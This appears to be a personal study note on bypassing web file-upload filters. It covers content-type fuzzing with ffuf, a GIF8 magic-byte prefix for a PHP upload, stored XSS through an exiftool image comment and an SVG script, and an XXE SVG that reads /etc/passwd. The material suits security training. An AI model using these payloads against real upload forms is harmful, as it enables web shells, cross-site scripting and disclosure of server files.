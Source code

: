     
### Type filters

The methods to validate the file content can be split in two: **Content-Type Header** and **File Content**.
We can fuzz the content-type header with the list `~/SecLists/Miscellaneous/web/content-type.txt`, to lower the number of entries for an image file upload we can execute the following command: `cat ~/SecLists/Miscellaneous/web/content-type.txt | grep 'image/' > image-content-types.txt`
Once we get a successful response we known found a valid content-type. 
We can send a `shell.php` with a content-type `image/jpg`

The second file content validation is using the MIME-type. This is usually done by inspecting the first few bytes which contain the [File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) or [Magic Bytes](https://opensource.apple.com/source/file/file-23/file/magic/magic.mime).
Since some image types have non-printable bytes we can always use `GIF8` to imitate a GIF image.
Example:

```
POST /upload.php HTTP/1.1
...
GIF8
<?php echo "Hello Worth" ?>
```

`ffuf -w ~/SecLists/wordlist.txt:FUZZ -w ~/SecLists/Miscellaneous/web/content-type.txt:FUZZ2 -request ~/request_image_type -request-proto http -ms 26`


## Limited File Uploads

- If the web app shows image metadata we can insert XSS in the comments of the image and upload it. This will introduce a stored xss vuln into the web app.
- We can do this with exiftool: `exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg`
- The same way, we can introduce a XSS vuln into a SBG image by adding it as follows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

- Another similar attack is XXE. In SVG images we can add the following to read `/etc/passwd`: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

- Using this technique we can read the source code and extract the following info:
    - locate the upload directory
    - identify allowed extensions
    - find the file naming scheme
